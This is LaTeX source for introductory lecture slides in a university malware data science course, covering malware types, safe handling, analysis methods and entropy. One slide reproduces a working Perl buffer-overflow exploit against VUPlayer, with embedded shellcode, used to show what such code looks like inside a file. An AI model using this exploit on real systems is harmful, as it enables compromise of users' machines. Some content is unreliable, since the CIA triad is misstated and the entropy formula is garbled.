\documentclass{beamer}
\usepackage{graphicx}
\usepackage{listings} % Syntax highlighing
\usepackage{fancyvrb} % Inline verbatim
\usepackage{hyperref} % Hyperlinks
\hypersetup{pdfpagemode=FullScreen}

\usepackage{tikz}
\usepackage{venndiagram}
\tikzset{venn circle/.style={draw=gray,text opacity=1,fill opacity=0.25,circle,minimum width=5.5cm,fill=#1,line width=1pt}}
\tikzset{label/.style={text width=1.5cm,font=\large\sffamily}}
\tikzset{labelsm/.style={text width=1.4cm,font=\small\sffamily}}
\tikzset{labelsm2/.style={text width=2.0cm,font=\small\sffamily}}

\usetheme{Boadilla}
\title{Introduction}
\author{UMBC Malware Data Science}
\date{Week 1: 28 Jan 2020}

\begin{document}

\begin{frame}{Introduction}
    \centering
    Malware Data Science \\
    CYBR/DATA/CMSC 691 \\
    Spring 2020 \\
    \\ ~~ \\
    Richard Zak \\
    rzak1@umbc.edu
\end{frame}

\begin{frame}{Introduction}
    Broad course overview
    \begin{itemize}
        \item Revisit traditional malware analysis
        \item Discuss malware with regard to data science
        \begin{itemize}
            \item Focus on PE32 (Windows) malware, since it's the most prevalent
            \item Discuss and create tools which will be file-type agnostic
        \end{itemize}
        \item Write code to analyze malware
        \item Handle live malware, and not infect ourselves
        \item Create models of malware
        \begin{itemize}
            \item Compare various types of models
            \item Compare metrics for measuring model effectiveness
        \end{itemize}
    \end{itemize}
    \\ ~~ \\
    \centering
    ``\textit{All models are wrong, but some are useful}'' -- George E. Box
\end{frame}

\begin{frame}{What is Malware?}
    Malware is a file created with malicious intent to do something not desired by the computer owner.
    \\ ~~ \\
    Malware can be in the form of...
    \begin{itemize}
        \item \small{Executable file: Windows PE32, Linux ELF, macOS/iOS MACH-O, etc}
        \item \small{Document with malicious code: MS Office macros, PDF Javascript, etc}
        \item \small{Document with exploit: MS Office, PDF, web page, images, almost anything}
    \end{itemize}
    \pause
    Exceptions:
    \begin{itemize}
    \item A hacking tool, such as \texttt{nmap} (port scanner) or \texttt{wireshark} (traffic viewer), should not be considered malware, since we cannot determine the \textit{intent} of the person using it. Whereas malware runs without the interaction of the victim (in most cases).
    \item Device monitoring (MDM) isn't malware, since it's generally operated by the device owner, or installed with the owner's consent.
    \end{itemize}
\end{frame}

\begin{frame}{What is Goodware?}
    Goodware, benignware, etc is software which doesn't cause harm to the user, computer, data, etc. It's a program or file the user or owner of the system wants on the computer.
    \\ ~~ \\
    Be careful: A seemingly benign file could be undiscovered malware.
    \\ ~~ \\
    
\begin{tikzpicture}
    %\begin{scope}[blend mode=screen] % Seems to have no impact on Overleaf, but image doesn't show in Linux Atril or PDF viewer
          \node [venn circle = red] (A) at (0,0) {};
          \node [label] (A1) at (-1.0,0) {Malware};
          
          \node [venn circle = green] (B) at (3,0) {};
          \node [label] (B1) at (4.0,0) {Goodware};
          
          \node [labelsm] (C1) at (1.6,1) {False Positives};
          \node [labelsm2] (C2) at (1.65,-1) {Undiscovered Malware};
          
          %\node [venn circle = orange] (C) at (2.5,5) {};
          %\node [label] (C1) at (2.5,6.25) {Cat C};
% Use a tabular to stack the text
          %\node [label] (D) at (5,3.75){\begin{tabular}{l} text1,\\text2,\\text3,\\text4 \end{tabular}};
        %\end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}{Stuxnet Example}
    
\includegraphics[scale=0.27]{Images/stuxnet_VT_Intel.png}
\end{frame}

\begin{frame}[fragile]
\lstset{language=perl,
                basicstyle=\tiny,
                keywordstyle=\color{blue}\ttfamily,
                stringstyle=\color{red}\ttfamily,
                commentstyle=\color{green}\ttfamily,
                morecomment=[l][\color{magenta}]{\#}
}
\begin{lstlisting}
use strict;
use warnings;
# win32_exec -  EXITFUNC=seh CMD=calc Size=343 Encoder=PexAlphaNum http://metasploit.com
my $shellcode =
"\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49\x49\x51\x5a\x56\x54".
"\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58".
"\x32\x42\x44\x42\x48\x34\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44".
"\x41\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44\x42\x30\x42\x50".
"\x42\x30\x4b\x48\x45\x54\x4e\x43\x4b\x38\x4e\x47\x45\x50\x4a\x57\x41\x30\x4f\x4e\x4b".
"\x58\x4f\x54\x4a\x41\x4b\x38\x4f\x45\x42\x42\x41\x50\x4b\x4e\x49\x44\x4b\x38\x46\x33".
"\x4b\x48\x41\x50\x50\x4e\x41\x53\x42\x4c\x49\x59\x4e\x4a\x46\x58\x42\x4c\x46\x57\x47".
"\x30\x41\x4c\x4c\x4c\x4d\x30\x41\x30\x44\x4c\x4b\x4e\x46\x4f\x4b\x53\x46\x55\x46\x32".
"\x46\x50\x45\x47\x45\x4e\x4b\x58\x4f\x45\x46\x52\x41\x50\x4b\x4e\x48\x56\x4b\x58\x4e".
"\x50\x4b\x44\x4b\x48\x4f\x55\x4e\x41\x41\x30\x4b\x4e\x4b\x58\x4e\x41\x4b\x38\x41\x50".
"\x4b\x4e\x49\x48\x4e\x45\x46\x32\x46\x50\x43\x4c\x41\x33\x42\x4c\x46\x46\x4b\x38\x42".
"\x44\x42\x53\x45\x38\x42\x4c\x4a\x47\x4e\x30\x4b\x48\x42\x44\x4e\x50\x4b\x58\x42\x37".
"\x4e\x51\x4d\x4a\x4b\x48\x4a\x36\x4a\x30\x4b\x4e\x49\x50\x4b\x38\x42\x58\x42\x4b\x42".
"\x50\x42\x50\x42\x50\x4b\x38\x4a\x36\x4e\x43\x4f\x45\x41\x53\x48\x4f\x42\x46\x48\x35".
"\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x57\x42\x45\x4a\x36\x42\x4f\x4c\x38\x46\x30\x4f".
"\x35\x4a\x46\x4a\x39\x50\x4f\x4c\x38\x50\x50\x47\x55\x4f\x4f\x47\x4e\x43\x46\x41\x46".
"\x4e\x46\x43\x36\x42\x50\x5a";
my $overflow = "\x41" x 1005;
my $eip = "\xc5\x22\x02\x10"; #0x100222C5 JMP ESP BASS.DLL -> Universal Address
my $nopsled = "\x90" x 24;

open(my $pls_playlist, "> s.pls");
print $pls_playlist "[playlist]\r\n".
		    "NumberOfEntries=1\r\n".
                    "File1=http://".
                    $overflow.$eip.$nopsled.$shellcode.$overflow.
                    "\r\n";
close $pls_playlist;
\end{lstlisting}
\tiny{Source: \url{https://downloads.securityfocus.com/vulnerabilities/exploits/21363-SkD.pl}}
\end{frame}

\begin{frame}[fragile]
    Resulting MP3 playlist file:
    \small
    \begin{verbatim}
[playlist]
NumberOfEntries=1
File1=http://AAAAAAAAAAAAAA...0xC5220210.0x90...0xEB0359...AAAAAA
\end{verbatim}
Opening this .M3U file with the affected version of VUPlayer would cause the program to crash and open \textit{calc.exe}. A malicious actor could have instead used code which would download a malicious file, or done something else. \\ ~~ \\
What do you observe about this?
\pause \\~~\\ There's Intel instruction code in a text file. That's a certain pattern of bytes which shouldn't be there.
\end{frame}

\begin{frame}{Malware Types}
    Malware is often discussed in terms of various types based on intent and behavior. For our purposes, we'll treat them the same.
    \begin{itemize}
        \item Trojan: Seems to be something benign, something you want, but has something extra. Example: installer which installs the desired program, and malware.
        \item Worm: Once it infects a computer, it finds automated ways to spread without human interaction. Example: malware which spams people in your address book, hoping to infect them as well.
        \item Rootkits: Malware which infects low-level apsects of the computer, such as the kernal or bootloader, so it has full access to the computer but can't be detected easily by the operating system or security software. Example: \href{https://en.wikipedia.org/wiki/Sony_BMG_copy_protection_rootkit_scandal}{Sony rootkit}.
        \item Spyware: Malware which tries to steal personal information, sometimes shows ads with the intent of earning money for the author.
        \item Fileless malware: Attacks software on the machine, doesn't leave a file on the disk. Some persist in the registry.
    \end{itemize}
\end{frame}

\begin{frame}{Infection vectors}
    How does the malware get on your computer?
    \begin{itemize}
        \item The user is tricked into installing or executing something.
        \item The computer contains a vulnerability which is exploited remotely.
        \begin{itemize}
            \item Example: A compromised website exploits a web browser, granting code execution for the attacker.
        \end{itemize}
        \item Lack of security online, since the Internet was not created with human nature in mind.
    \end{itemize}
\end{frame}

\begin{frame}{Malware creation}
    Who is making malware, and how?
    \begin{itemize}
        \item Criminal groups, for profit. Example: ransomware.
        \item Nation-states, for intelligence and competitive information, or destruction. Example: Stuxnet.
        \item Some are accidental, or for fun, not trying to inflict pain \& damage. Example: Morris worm.
    \end{itemize}
\end{frame}

\begin{frame}{CIA Triad}
    From CYBR620, recall the key components for cybersecurity:
    \begin{itemize}
        \item Confidentiality
        \item Integrity
        \item Anonymity
    \end{itemize}
    The National Security Agency adds two more:
    \begin{itemize}
        \item Availability
        \item Non-Repudiation
    \end{itemize}
    In which does malware fit?
\end{frame}

\begin{frame}{Why are we here?}
    \begin{columns}
    \column{0.5\textwidth}
    \only<1>{
        \begin{itemize}
            \item Malware is on the rise
            \item Can't analyze all samples
            \item Some are destructive (ransomware)
        \end{itemize}}
    \only<2>{
        \begin{itemize}
            \item Traditional anti-virus catches what's been previously observed
            \item We need a better solution!
        \end{itemize}}
    \column{0.5\textwidth}
        
\includegraphics[width=6cm]{Images/avtest-malware-dist}
    \end{columns}
\end{frame}

\begin{frame}{}
    Malware Analysis Options:
    \begin{enumerate}
        \item Static Analysis
        \item Dynamic Analysis
        \item Data Science perspective
    \end{enumerate}
    
    Safety considerations:
    \begin{itemize}
        \item Rename sample, removing the file extension
        \item Store encrypted or in password-protected archive
        \item Use a different operating system or CPU architecture
        \item Set permissions or policy to disallow execution on the partition where malware resides
        \begin{itemize}
            \item Linux \texttt{/etc/fstab}: \texttt{/dev/sda1 /malwareDirectory ext4 noexec 0 0}
            \item Windows: folder permissions or Group Policy settings
        \end{itemize}
        \item Remove programs which may open the file type (applies to non-executable malware: PDF, DOC, etc)
    \end{itemize}
\end{frame}

\begin{frame}{Executable File Formats}
    There are many executable file formats used by a variety of operating systems. The formats have several common characteristics, including:
    \begin{itemize}
        \item Some parts of the file are human-readable, which may include strings presented to the user, such as error messages. Other examples may be encryption certificates, URLs, etc. Not all human-readable strings are actually strings, but could be code which happens to be bytes that could represent ASCII characters.
        \item Several sections for data (static \& uninitialized variables), executable code, resources (images, audio, etc), etc
        \item All executable formats include code which is directly executed on the processor.
        \begin{itemize}
            \item \lstinline{0xC7} mov
            \item \lstinline{0x3A} cmp
        \end{itemize}
        \item For dynamic executables, the executable format contains references to shared libraries (.dll on Windows, .so on Linux, .dylib on macOS)
    \end{itemize}
\end{frame}

\begin{frame}{Assembly Language}
    \begin{itemize}
        \item Languages such as C, C++, Fortran, Go, compile to assembly language. These assembly instructions are what is executed by the processor when the program runs.
        \item Assembly makes direct use of registers, which are small data storage units on the processor. Some registers keep track of data for the program running, others keep track of the execution flow of the program.
        \item Reverse engineering programs, including analysis tools and various debuggers, deal directly with assembly.
        \item Some snippets of assembly which perform a specific task are called \textit{shell code}.
    \end{itemize}
\end{frame}

\begin{frame}{Static Analysis}
    \begin{itemize}
        \item Use the \textit{strings} command
        \item Use a reverse engineering program like \textit{Ghidra}, \textit{IDA}, etc.
        \item Attempt to extract resources with \textit{binwalk}
    \end{itemize}
    In each case, learn as much about the binary without running the binary. There's a lot which can be learned about a particular sample just by looking at it with a variety of tools. There's no ''proper" way to do this, and a lot of malware analysts create their own tools and scripts.
    \\ ~~ \\
    However, some samples may be encrypted, packed, or otherwise obfuscated which limit the effectiveness of this technique.
\end{frame}

\begin{frame}{Dynamic Analysis}
    Directly observe behavior by running the malware sample with some tools:
    \begin{itemize}
        \item Debugger
        \item Virtual Machine
        \item Sandbox software, which monitors system state (filesystem, memory, network traffic, Windows registry, etc)
    \end{itemize}
    If you're not careful, you \textbf{will} infect yourself, your network, and may suffer data loss! However, this is the best way to see what malware really does, with the caveat that some malware samples attempt to detect if they're in a virtual machine, and will alter their behavior accordingly to avoid detection.
\end{frame}

\begin{frame}{Data Science}
    The Data Science perspective for malware involves the features from static or dynamic analysis of the collection of data, the \textit{corpus}, as a whole and using algorithms to determine which features distinguish between malicious and benign files. The features are provided to a machine learning algorithm, which then learns the patterns which make this determination. There will be a lot of features, more so than any human could analyze themselves, yet the computer can complete this task easily.
    \\ ~~ \\
    Increasing the amount of data generally increases the effectiveness of the resulting model, as well as the amount of time needed for training.
\end{frame}

\begin{frame}[fragile]{Shannon's Entropy}
    \only<1>{$$ H=-\sum_{n=0}^{n-1}n_x\log_2 n_x $$}
    \only<2>{
        \begin{itemize}
            \item For our purposes, entropy is the measurement of randomness in a file.
            \item Entropy range is zero to 8.
            \item English text has an entropy of around 4.
            \item Typical machine instructions have an entropy of around 5.5 to 6.
            \item Encrypted or packed content has an entropy of 7.8 to 8.
        \end{itemize}
    }
    \only<3>{
        Entropy can be visualized as a histogram: \\ ~~ \\
        \begin{columns}
        \column{0.5\textwidth} {
            \small Entropy of 4.88
            
\includegraphics[width=6cm]{Images/Perl_script_histogram.png}
            }
        \column{0.5\textwidth} {
            \small Entropy of 7.96
            
\includegraphics[width=6cm]{Images/Linux_Kernel_histogram.png}
            }
        \end{columns}
    }
    \only<4>{
        Entropy is one possible feature we can use to help an algorithm distinguish between goodware and malware, but it's not perfect.
        \\ ~~ \\
        \begin{columns}
        \column{0.5\textwidth} {
            \small Entropy of 3,000 Goodware samples
            
\includegraphics[width=6cm]{Images/EmberGoodwareEntropy.png}
            }
        \column{0.5\textwidth} {
            \small Entropy of 2,300 Malware samples
            
\includegraphics[width=6cm]{Images/EmberMalwareEntropy.png}
            }
        \end{columns}
    }
    \only<5>{
        Packing compresses, and sometimes encrypts, all or part of the executable, and while it's common with malware, it's used by legitimate software as well. It helps protect sensitive parts of a program, reduces the application size. \\ ~~ \\
        These packers include open source projects, like UPX, commercial packers, custom packers, and installers. They essentially transform the file's bytes from indicators of functionality to random noise. \\ ~~ \\
        Wikipedia has a list of packers: \url{https://en.wikipedia.org/wiki/Executable_compression}.
    }
\end{frame}

\begin{frame}{Lab}
    A virtual machine running Ubuntu Linux is provided. It includes: analysis tools, lots of malware, and text editors. The download link is in the syllabus.
    \\ ~~ \\
    Start by downloading VirtualBox (\url{https://www.virtualbox.org}) if you don't have it or another hypervisor installed.
    \\ ~~ \\
    The purpose of the first lab assignment is to make sure you're able to run the virtual machine, and to briefly introduce you to Ghidra.
    \hline
    \\ ~~ \\
    Watch this video: \url{https://www.youtube.com/watch?v=FctDptnYukQ}. It covers more information about types of packers and how they work.
\end{frame}

\end{document}